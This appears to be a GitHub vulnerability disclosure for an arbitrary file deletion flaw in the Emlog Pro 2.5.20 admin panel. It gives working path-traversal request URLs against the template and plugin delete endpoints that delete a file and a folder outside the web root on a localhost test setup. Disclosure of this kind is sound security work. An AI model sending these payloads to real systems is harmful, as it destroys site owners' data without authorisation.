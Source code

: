 Emlog Pro 2.5.20
Arbitrary file deletion vulnerability in the backend interface.

1. The functionality is primarily located in the backend template and plugin deletion process, as shown in the figure:
Template:
<img width="415" height="270" alt="image" src="https://github.com/user-attachments/assets/6a11c857-6739-4541-801d-eea24d423b3f" />

plugins：
<img width="415" height="293" alt="image" src="https://github.com/user-attachments/assets/608a4d5b-0cf5-4ba0-b3e1-01bf045976e1" />


1.Capture and delete APIs
Appearance：
http://localhost/admin/template.php?action=del&tpl=test&token=a4539d9677172ad9e96c7e02ebac0956f00babc9
<img width="415" height="283" alt="image" src="https://github.com/user-attachments/assets/e6cf4080-6063-42c0-ad5f-9a96d26be19b" />
<img width="415" height="273" alt="image" src="https://github.com/user-attachments/assets/1cc4c759-5a77-49de-9bd2-b0cc01b4ce9f" />

plugins：
http://localhost/admin/plugin.php?action=del&plugin=tips/tips.php&token=a4539d9677172ad9e96c7e02ebac0956f00babc9
<img width="416" height="258" alt="image" src="https://github.com/user-attachments/assets/48f217e7-d7cb-4026-81a4-94ae0b185796" />


2.Build the deletion payload
First, based on the deletion parameters and the location of template and plugin functions, the deletion starts in the templates and plugins of the content.
<img width="416" height="141" alt="image" src="https://github.com/user-attachments/assets/96fd4ad6-4d1d-4d4a-adcc-a4c98feb73c5" />
<img width="416" height="141" alt="image" src="https://github.com/user-attachments/assets/6e71efb7-3447-4c48-9a10-ac2b825600aa" />

So create a test folder outside the web application and perform directory traversal to delete the specified file:
<img width="415" height="241" alt="image" src="https://github.com/user-attachments/assets/108b15fb-1913-4a1a-8202-12db534fca8b" />
<img width="415" height="117" alt="image" src="https://github.com/user-attachments/assets/db9b3ef6-1495-4b44-b964-56e0924d2f0c" />

Try running the payload to delete:
The template interface successfully deleted 111.txt
http://localhost/admin/template.php?action=del&tpl=../../../test/111.txt&token=a4539d9677172ad9e96c7e02ebac0956f00babc9
<img width="415" height="232" alt="image" src="https://github.com/user-attachments/assets/0889bda6-8f4a-4b34-8df6-7db0fc12f06f" />

The plugin interface successfully deleted the test folder:
http://localhost/admin/plugin.php?action=del&plugin=../../../test/&token=a4539d9677172ad9e96c7e02ebac0956f00babc9
<img width="416" height="259" alt="image" src="https://github.com/user-attachments/assets/29cafc98-f366-4a06-9ae9-8197b27d8527" />

4. This implements the arbitrary file deletion function of emlog pro, which can destroy the integrity and stability of the system.
